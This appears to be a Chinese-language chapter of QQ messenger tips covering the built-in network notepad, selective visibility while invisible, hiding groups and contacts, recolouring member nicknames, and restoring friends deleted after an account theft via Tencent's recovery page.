





#### 随身携带的记事本

在外上网，查找到了许多重要的信息或者别人给了你许多重要的资料，面对这些资料，我们该怎么处理呢，要怎么带回家呢？网络记事本是一款QQ文本记录器，其最大的特色就是移动方便，QQ随时开启，网络记事本随时使用，省去了我们劳累繁忙的携带文件。

有了QQ自带的网络记事本，我相信这一类的问题都会迎刃而解了吧！











首先打开网络硬盘，在左下角会看到“记事本”（图1），打开它，现在就可以像使用记事本一样来使用它了。把需要的内容写进去，此网络记事本功能还算齐全，可以插入位图和对象（图2），比普通的记事本还要好用，并且可以当作日记本使用，可以随时插入时间。编辑好之后，点击上边的保存按钮（图3），可以重命名，也可以使用默认的时间为名字（图4）。确定后，你的文本信息就保存在QQ的网络硬盘中了。随身携带，无论你的QQ在哪，它都能找到。

如果想打开你的网络记事本来查看，那么就进入网络硬盘—“个人助理”—“网络记事本”，双击对应的文件名即可查看（图5）。

## 隐身设置对其可见

在QQ中针对QQ会员提供了一个比较体贴的功能，那就是在设置QQ状态为隐身状态后，还可以有选择性地针对特定的好友进行隐身后可见。也就是虽然QQ处于隐身状态，但特定的好友仍可在QQ好友列表中看到你，而非QQ会员则无法正常享受此体贴的服务。

我们首先使用TM登录自己的QQ号，然后选择你想要设置隐身对其可见的好友，点击右键，在“我想对联系人”中看到“隐身时对其可见”（图1）。如果有多个好友需要设置，多点几遍就可以了；如果人数太多，还可以使用对组设置隐身可见功能，一键搞定（图2）！

下次无论使用QQ还是TM登录，将一直拥有隐身时对其可见功能，如图3，看到头像左下角的那个小眼睛就说明成功了！





#### 隐藏QQ群、通讯录





QQ中的QQ群、通讯录以及最近联系人都是可以隐藏设置的，我们打开面板管理器（图1）。在“界面管理器”中找到“组件管理”，下面有个“工具栏选项”和“文件夹选项”，在文件夹选项中我们看到了QQ群、通讯录以及最近联系人（图2）。把它们前面的勾选上就是显示，如果去掉就是取消。如图3为取消效果，这样就能显示出更多的好友，方便我们的聊天。想恢复的话重新选中即可。很多朋友在找不到“QQ搜索”，也是从这里来设置的。

### 1.10 会员凭什么红名字



难道会员花了钱，地位就格外高？凭什么让他们在自己的QQ上亮着鲜红的名字？如果看不惯，就跟我一起让会员也和我们平民一样的颜色吧。

在空白区域点击鼠标右键，在“颜色设置”中找到“会员字体颜色”（图1），选用黑色将和普通用户一样的颜色，选用白色将显示无昵称。当然如果你喜欢其他颜色的话，也可以选择使用任意会员昵称的颜色（图2）。



#### 好友恢复

QQ号被盗确实是件很令人苦恼的事，幸好现在有了DNA验证，终于使得自己心爱的QQ密码不会被别人更改了。可是有些可恶的盗号者虽然不给你改密码却会删除你的好友，这样虽然你的号码还在，但是好友却不翼而飞，是不是也相当地苦恼呢。

没关系，腾讯现在已经推出了非常简便的QQ好友恢复系统。只需登录 huifu.qq.com 就能看到这个系统，它的页面非常简洁。输入QQ号码、密码和验证码，点击登录即可进入系统（图1）。



在这个页面你有三个选项可以选择：恢复四周内被删除的好友、仅恢复两周内被删除的好友、仅恢复一周内被删除的好友。也就是说只要是一个月内被删除的好友，你都可以选择恢复（图2），这样一来，等我们找回QQ后，即可马上恢复好友了。



确认后就可以按下提交键了，现在你几乎就不必担心了。如果QQ会员只要重新登录QQ，被删的好友列表就又可以重新恢复了。但是对于普通用户来说还要进行一点小操作，在重新登录QQ后还需完成确认步骤。

